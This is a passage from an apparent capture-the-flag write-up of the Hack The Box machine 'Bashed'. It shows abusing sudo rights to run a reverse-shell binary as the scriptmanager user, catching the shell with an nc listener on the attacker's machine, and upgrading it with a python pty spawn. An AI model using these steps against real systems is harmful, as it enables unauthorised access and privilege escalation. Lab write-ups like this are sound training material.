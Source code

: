 ```bash
scriptmanager@bashed:/scripts$ ps -aux | grep root | grep -v '\['
root          1  0.0  0.5  37456  5540 ?        Ss   May11   0:02 /sbin/init noprompt
root        234  0.0  0.2  28332  2700 ?        Ss   May11   0:00 /lib/systemd/systemd-journald
root        264  0.0  0.0 158624   316 ?        Ssl  May11   0:00 vmware-vmblock-fuse /run/vmblock-fuse -o rw,subtype=vmware-vmblock,default_permissions,allow_other,dev,suid
root        287  0.0  0.3  44296  3768 ?        Ss   May11   0:00 /lib/systemd/systemd-udevd
root        538  0.0  1.0 111992 10164 ?        Ss   May11   0:17 /usr/bin/vmtoolsd
root        551  0.0  0.3  29008  3124 ?        Ss   May11   0:00 /usr/sbin/cron -f
root        553  0.0  0.8 275864  8364 ?        Ssl  May11   0:00 /usr/lib/accountsservice/accounts-daemon
root        555  0.0  0.1  20100  1220 ?        Ss   May11   0:00 /lib/systemd/systemd-logind
root        646  0.0  0.1  15940  1764 tty1     Ss+  May11   0:00 /sbin/agetty --noclear tty1 linux
root        748  0.0  2.4 255896 24940 ?        Ss   May11   0:01 /usr/sbin/apache2 -k start
root      17717  0.0  0.3  49792  3560 pts/0    S    05:31   0:00 sudo -u scriptmanager /tmp/rs.elf
```

## Lateral movement to scriptmanager

Enumerated sudo privileges for www-data user:

```bash
www-data@bashed:/var/www/html$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

www-data sudo privileges allowed to execute any command as scriptmanager user:

```bash
www-data@bashed:/var/www/html$ sudo -u scriptmanager id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)

www-data@bashed:/var/www/html$ sudo -u scriptmanager /tmp/rs.elf &
```

Obtained the reverse shell:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Bashed]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.68] 50050
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
python -c 'import pty;pty.spawn("/bin/bash")'
scriptmanager@bashed:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 10099

┌──(kali㉿kali)-[~/CTFs/HTB/box/Bashed]
└─$ stty raw -echo; fg                                           148 ⨯ 1 ⚙

[1]  + continued  nc -nlvp 10099

scriptmanager@bashed:/var/www/html$ export TERM=xterm
scriptmanager@bashed:/var/www/html$ stty rows 60 columns 235
```
